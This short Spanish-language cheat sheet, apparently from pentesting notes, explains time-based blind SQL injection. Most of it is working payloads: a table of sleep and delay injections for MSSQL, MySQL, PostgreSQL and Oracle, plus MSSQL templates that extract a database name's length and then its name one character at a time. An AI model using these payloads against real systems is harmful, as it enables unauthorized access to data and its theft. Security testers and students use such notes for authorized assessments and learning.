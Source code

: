 ### Info

Aplicamos lógica de tiempo en SQL para ver si se inyecta y es validada analizando el tiempo que tardó la response.

### PAYLOADS

| DB   | payload |
|----------|------|
| MSSQL     | '; IF 1=1 WAITFOR DELAY '0:0:10'--  |
| MySQL/MariaDB    | AND (SELECT SLEEP(10) FROM dual WHERE database() LIKE '%')  |
| PostgreSQL    | \|\| (SELECT 1 FROM PG_SLEEP(10))   |
| Oracle    | AND 1234=DBMS_PIPE.RECEIVE_MESSAGE('RaNdStR',10)  |


### Extraer el length del nombre de una db

    <dato>'; IF (LEN(db_name()))=<num> WAITFOR DELAY '0:0:10'-- 

### Extraer el nombre de una DB

    <dato>'; IF (select substring(db_name(),<index>,1))='<letra>' WAITFOR DELAY '0:0:10'-- 
